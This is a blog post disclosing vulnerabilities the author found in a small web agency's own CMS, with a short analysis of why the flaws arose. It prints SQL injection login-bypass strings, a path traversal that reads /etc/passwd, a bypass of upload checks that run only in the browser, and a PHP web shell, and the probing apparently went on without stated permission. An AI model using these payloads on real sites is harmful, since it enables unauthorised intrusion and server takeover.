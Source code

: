 ```yaml
---
title:  "A Web Agency's Vulnerable Website"
date:   2016-01-23 00:00:00
description: One Fine Evening's Pastime
---
```


This article covers a company profile website. The company is owned by a friend of mine. He runs a web agency, offering his clients custom applications based on a CMS they developed. All of the things mentioned in this article has been reported to the agency to be fixed.

It should be noted not every version of their CMS is vulnerable. A later version of their CMS used in a SaaS business run by the same company is not vulnerable to the SQL injection on the admin login form and directory indexing.

#### How It Began

The story started in early November 2015. I found that [directory indexing](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Directory_Indexing) was enabled on his web agency's company profile website. After looking at the files I could see, I found out the website's admin login page and the structure of their company's CMS.

Knowing that he's running another business, I tried checking out his other business' website. Directory indexing was not enabled in this site, but I found out that they're using the same CMS engine.

I notified him for the directory indexing on his web agency (we'll call it Alpha Web Agency), and told him that directory indexing leaked some information about the structure for his SaaS business' website (we'll call it Beta Online Services). It was fixed after a few days.

That's how I gain a little knowledge on their CMS structure, and how I could perform the next steps specifically on the admin panel.

#### Two Months Later

On a Saturday evening, I decided to come back to Alpha Web Agency's website. I didn't really expect to find anything there, I just want to kill some time while waiting for a software installation to finish.

I checked once again to make sure that directory indexing is not enabled on the site. After that, I went straight to the admin login form, as I already know the exact path.

I tried to use this login credentials on the login form.

```
Username: '
Password: '
```

The application gave me an unexpected response.

![Login Response](/assets/images/posts/alpha-web-agency-01.png)

The login form is vulnerable to SQL injection. I didn't try it when I went to Alpha Web Agency's site in November 2015. I tried to bypass the authorization sequence.

```
Username: ' OR 1=1--
Password: ' OR 1=1--
```

I still got the same response as before. So I tried another one.

```
Username: ' OR 1=1#
Password: ' OR 1=1#
```

And the admin panel is served.

![Admin Panel](/assets/images/posts/alpha-web-agency-02.png)

The navigation in the admin panel seems to be vulnerable to directory traversal, and I tried to insert the path to `/etc/passwd` file as the parameter value.

![Directory Traversal](/assets/images/posts/alpha-web-agency-03.png)

The admin can upload images in several menu functions. The image files should be limited to `jpg`, `gif`, and `png` files. But it's only validated with JavaScript, disabling the form submission button to be clicked when the script detected invalid file extension.

We can always disable JavaScript on modern browsers, and I successfully uploaded a PHP file.

![Upload Validation Bypass](/assets/images/posts/alpha-web-agency-04.png)

This is the file I uploaded.

```php
<?php
echo '<pre>';
echo shell_exec($_GET['cmd']);
echo '</pre>';
?>
```

The PHP configuration on the server prevents the `shell_exec` from running, but it should be possible to do other things with an uploaded PHP file.

Beta Online Services' website is not vulnerable to SQL injection on the login form. But it's possible that it also suffers from the directory traversal vulnerability and missing upload validation on the backend. Beta Online Services is started a few years after Alpha Web Agency, therefore I assume that it's using a newer version of the CMS. Hence, some of the vulnerabilities has been fixed for Beta Online Services' website.

#### Conclusion

The report regarding the existing vulnerabilities has been sent to Alpha Web Agency, and they should be on the process of patching it. But maybe we need to have some talk about how the vulnerabilities could exist.

It's a small company run mainly by the owner. The owner started out freelancing by himself, and after a while he started to build components for future projects. He ended up developing a CMS and templates for projects. After a while, he hired a few people to help with the projects and the company is formed.

The CMS and templates might be built with project timeline in mind, and focused mainly just to have the functions running. The company is a very small company with only around five workers including the owner himself. Their hands being full with keeping up with the clients' requests in tight deadlines might be one reason that they didn't have much time to review the security of their system. Not to mention that they're also need manpower to keep Beta Online Services running.

To prevent similar problems from appearing in the future, the company might need to spare some time reviewing their code, examining their server configurations, and testing their system's security. Maybe some more manpower will help, especially security-aware web developers and administrators.